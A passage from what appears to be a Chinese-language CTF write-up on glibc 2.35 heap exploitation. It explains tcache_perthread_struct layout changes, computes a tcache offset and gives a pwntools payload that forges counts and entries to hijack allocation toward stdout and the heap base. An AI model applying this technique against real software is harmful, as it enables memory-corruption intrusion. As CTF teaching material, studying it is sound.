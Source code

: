 ### tcache_perthread_struct
tcache_perthread_struct在glibc-2.30有个改动，改动了结构体中counts成员的数据类型
```c
# define TCACHE_MAX_BINS		64

// glibc-2.30之前
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

//glibc-2.30及以后
typedef struct tcache_perthread_struct
{
  uint16_t counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

根据这个结构体，可以计算出0xf0大小的tcache块位于堆基址的偏移
```python
word_bytes = context.word_size // 8 # i386->word_size=32  amd64->word_size=64
target = 0xf0

# glibc-2.30之前
offset = 0x10 + 0x40 + (target-0x20)//0x10 * word_bytes

# glibc-2.30及以后
offset = 0x10 + 0x80 + (target-0x20)//0x10 * word_bytes
```
本题是glibc-2.35，利用第二个公式，计算出offset为0xf8
我们将`heap_base + 0xf8`这里的值覆盖为`heap_base + 0x10`
当我们申请0xe0大小的空间时(利用解包过程中会申请与content大小相同的空间)，便会申请到`heap_base+0x10`开始的写权限
即可劫持`tcache_perthread_struct`，实现堆任意分配

看看我们改之后的`tcache_perthread_struct`
```python
# 伪造counts
payload  = p16(0)*2+p16(1)+p16(1)+p16(0)*5+p16(1)
payload  = payload.ljust(0x80,b'\x00')

# 伪造entrtes
payload += p64(0)*2+p64(stdout)+p64(stdout)+p64(0)*5+p64(heap_base+0x10)
payload  = payload.ljust(0xe0,b"\x00")
```
我们将0x40,0x50,0xb0的counts修改为1
并将对应的0x40,0x50大小的entries改为stdout结构体的位置
将对应0xb0大小的堆块改为`heap_base+0x10`，以便继续控制`tcache_perthread_struct`
最后调整为0xe0，在解包过程中，会申请0xf0大小的chunk，也就是`tcache_perthread_struct`，然后将content填进去，也就实现了篡改`tcache_perthread_struct`

### stdout
```c
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
```